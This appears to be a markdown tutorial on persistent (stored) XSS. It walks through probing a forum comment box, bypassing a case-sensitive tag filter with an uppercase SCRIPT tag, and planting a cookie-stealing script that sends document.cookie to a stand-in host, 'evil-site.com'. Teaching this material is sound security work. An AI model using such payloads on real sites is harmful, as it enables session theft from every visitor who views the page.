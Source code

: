 # Persistent XSS

>A **Persistent XSS** or **Stored XSS** is a type of XSS Vulnerability in which a malicious XSS payload is stored in the database of the server which makes the payload *persistent* and it is sent to users in each following requests. Thus, making the XSS Payload *persistent*. The server ***stores*** the payload through any **influence** from the malicious actor/s but, due to it's own **functionality**.

Unlike Reflected XSS, in Persistent XSS the payload is not sent directly to the victim through any medium but it is indirectly send through the vulnerable site.

`Persistent XSS is really hard to catch because, not only the payload is  invisible to the user through the natural UI of the browser but also, a proper XSS Payload would just blend into it's environment.`

The most dangerous part of a **Persistent XSS** vulnerability is that, it can effect extremely large number of audiences in very short duration. For example,let's say there is a Persistent XSS vulnerability in a popular website's comment section. If someone uploads a stealthy malicious payload and hundred's of thousands of people view it. The everyone sees the comment would be compromised.

By the time it gets noticed, large number of people would  already be affected.

Now let's get practical!

You just received an email from your friend with a URL to a forum's post in it. You decide to visit it and you see that it has got lot's of comment.

After reading comments for a while, you decide to test it's Web Application Firewall. So, you insert,

```html
  <h1>Hello guys!</h1>
```

into it's comment section.
Hmm, weirdly you don't get a heading but simple text `Hello guys!`. What happened to the `<h1>` tags?
It's common for websites to filter out common tags. But, some of them are written by beginners and might not block all the tags. For bypassing WAF's read here.

Now lets try the usual,

```html
  <script>alert(1)</script>
```

Hmm, no luck you get `alert(1)` as the comment. We see that WAF is successfully blocking all the tags including `script` tag. That's a clever WAF, so how are we going to do XSS?

Different WAFs use different techniques to detect HTML tags, some use regex and some use simple string search for HTML tags.

There is always some problem associated with a WAF's method of preventing XSS. For WAFs that search for HTML tags in a string, it can easily bypassed. You will see how we can bypass them.

Let's enter the following into the comment section,

```html
  <SCRIPT>alert(0)</SCRIPT>
```

Voila! You get the alert! Easy, isn't it?
Why did `<SCRIPT>` worked but, `<script>` didn't? Because, the WAF of the website was searching and removing the HTML tags based on it's custom wordlist. Now, the wordlist did not have `<SCRIPT>` tag in it making the WAF completely useless.

Now, to steal cookies you would just put,

```html
  <script>document.write("<img src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>")</script>
```

In to the comment and lure your target into visiting the post and view the comment.
That is a dangerous piece of code that would steal everyone's cookie who views the page.

**Persistent XSS** are very dangerous and if you are a developer make sure to check for this vulnerabilities beforehand.
The XSS payload for **Persistent XSS** and **Reflected XSS** will mostly be similar but the technique for exploitation would be different depending on the situation.

To read further for WAF Bypassing visit here!
